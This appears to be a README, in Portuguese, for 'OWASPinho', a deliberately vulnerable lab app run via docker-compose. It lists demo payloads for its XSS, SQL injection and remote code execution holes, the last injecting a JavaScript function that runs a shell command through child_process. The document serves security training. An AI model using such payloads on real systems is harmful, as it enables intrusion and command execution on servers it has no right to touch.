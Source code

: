 # OWASPinho
- [OWASPinho](#owaspinho)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)


## Execução

```
$ unzip owaspinho.zip
$ cd owaspinho
$ docker-compose up
```

![](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)

![image-20230411163617555](images/image-20230411163617555.png)


## Vulnerabilidades 
### XSS
```
/?useriInput=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
### SQL Injection
```
/users?username=OR+1=1--&access-token=ASDASD
```
### RCE
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ls').toString();%20}
```